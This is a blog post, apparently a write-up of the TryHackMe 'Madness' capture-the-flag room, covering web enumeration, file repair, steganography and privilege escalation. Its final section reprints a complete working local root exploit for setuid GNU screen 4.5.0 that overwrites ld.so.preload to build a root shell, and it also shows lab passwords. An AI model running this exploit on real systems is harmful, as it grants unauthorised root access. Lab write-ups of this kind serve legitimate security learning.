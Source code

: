 ```yaml
---
layout: post
title:  "THM - Madness"
date:   2020-07-27 18:00:00 +1000
category: hacking
---
```


## Introduction
*Will you be consumed by Madness?*  

This is a easy rated box. Let's begin.

## Ports
nmap says we've got 22 (SSH) and 80 (HTTP) only.  

## Webserver
To start with, this appears to be simply the Apache default page. But hidden away is a comment:

{% highlight html %}
<img src="thm.jpg" class="floating_element"/>
<!-- They will never find me-->
{% endhighlight %}

We can grab the file with wget:

``
kali:/opt/tryhackme/madness# wget http://madness.thm/thm.jpg
``

The file is corrupted, but we can repair it with *hexeditor* by replacing the first 12 bytes with **FF D8 FF E0 00 10 4A 46 49 46 00 01** to reveal a hidden directory:

http://madness.thm/th1s_1s_h1dd3n/

## Secret
The page says:
>Welcome! I have been expecting you!
To obtain my identity you need to guess my secret! 

So now we can do:
http://madness.thm/th1s_1s_h1dd3n/?secret=0

And the source code reveals the 'secret' value is between 0 and 99. With Burp Turbo Intruder we can establish that it is 73, and we get the message:
>Urgh, you got it right! But I won't tell you who I am! y2RPJ4QaPF!B

This string is the used as a passphrase for the repaired JPG from earlier to extract some hidden text:

>Fine you found the password!  
Here's a username  
wbxre  
I didn't say I would make it easy for you!

This is ROT13 encoding for the word **joker**.

However, we can't SSH in as joker with y2RPJ4QaPF!B as the password, because the password is something else.

## So, what is it?
Yep, I had to check a writeup. You go to the *room page* on the THM website, download a picture from there and run steghide with no password to get the hidden file; the password is ***axA&GF8dP**. 

Can I just say, *that's some real bullshit*. You might have a different view and that's fine, but I wasn't impressed.

## Root
Run linpeas, find out 'screen' is a PE vector. Quick google, find an exploit, run it, root. F*** this box.

[Exploit](https://www.exploit-db.com/exploits/41154)
{% highlight shell %}
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
/bin/screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
/bin/screen-4.5.0 -ls # screen itself is setuid, so... 
/tmp/rootshell
{% endhighlight %}
